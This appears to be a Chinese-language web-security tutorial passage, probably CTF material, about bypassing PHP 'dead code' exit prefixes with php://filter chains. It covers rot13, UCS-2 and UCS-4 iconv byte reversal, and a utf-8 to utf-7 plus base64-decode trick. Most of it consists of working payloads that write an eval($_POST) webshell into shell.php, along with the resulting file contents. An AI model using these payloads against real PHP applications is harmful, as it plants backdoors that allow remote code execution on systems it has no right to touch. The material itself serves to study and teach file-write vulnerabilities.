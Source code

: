 	<?cuc rkvg();cuc://svygre/jevgr=fgevat.ebg13|<?php phpinfo();?>|/erfbhepr=f1zcyr.cuc


其原理就是利用转码从而将原本的死亡代码进行转码从而使引擎无法识别从而避免死亡代码；


#### convert.iconv.*

对于iconv字符编码转换进行绕过的手法，其实类似于上面所述的base64编码手段，都是先对原有字符串进行某种编码然后再解码，这个过程导致最初的限制exit;去除，而我们的恶意代码正常解码存储。


* **usc-2**

通过UCS-2方式，对目标字符串进行2位一反转（这里的2LE和2BE可以看作是小端和大端的列子），也就是说构造的恶意代码需要是UCS-2中2的倍数，不然不能进行正常反转（多余不满足的字符串会被截断），那我们就可以利用这种过滤器进行编码转换绕过了

```php
echo iconv("UCS-2LE","UCS-2BE",'<?php @eval($_POST[ab]);?>');
```

payload:

	php://filter/convert.iconv.UCS-2LE.UCS-2BE|?<hp pe@av(l_$OPTSa[]b;)>?/resource=shell.php

成功向 `shell.php` 写入

	?<hp pxeti)(p;ph/:f/liet/rocvnre.tcino.vCU-SL2.ECU-SB2|E<?php @eval($_POST[ab]);?>r/seuocr=ehsle.lhp

#### **usc-4**

通过UCS-4方式，对目标字符串进行4位一反转（这里的4LE和4BE可以看作是小端和大端的列子），也就是说构造的恶意代码需要是UCS-4中4的倍数，不然不能进行正常反转（多余不满足的字符串会被截断），那我们就可以利用这种过滤器进行编码转换绕过了.

```php
<?php
echo iconv("UCS-4LE","UCS-4BE",'<?php @eval($_POST[abcd]);?>');
```

28字符 `<?php @eval($_POST[abcd]);?>` 转为 `hp?<e@ p(lavOP_$a[TS]dcb>?;)`

payload:

	content=php://filter/convert.iconv.UCS-4LE.UCS-4BE|hp?<e@ p(lavOP_$a[TS]dcb>?;)/resource=shell.php

成功写入：

	hp?<xe p)(tiphp;f//:etlioc/rrevnci.t.vno-SCU.EL4-SCU|EB4<?php @eval($_POST[abcd]);?>ser/cruohs=e.lle

#### utf8-utf7

![0KxBGR.png](https://s1.ax1x.com/2020/10/01/0KxBGR.png)


这里发现生成的是+AD0-,然而经过检测，此字符串可以被base64进行解码；那也就意味着我们可以使用这种方法避免等号对我们base64解码的影响；我们可以直接写入base64加密后的payload，然后将其进行utf之间的转换，因为纯字符转换之后还是其本身；所以其不受影响，进而我们的base64-encode之后的编码依然是存在的，然后进行base64-decode一下，写入shell.

Payload:

	content=php://filter/write=aaaaXDw/cGhwIEBldmFsKCRfUE9TVFthXSk7ID8+|convert.iconv.utf-8.utf-7|convert.base64-decode/resource=shell.php
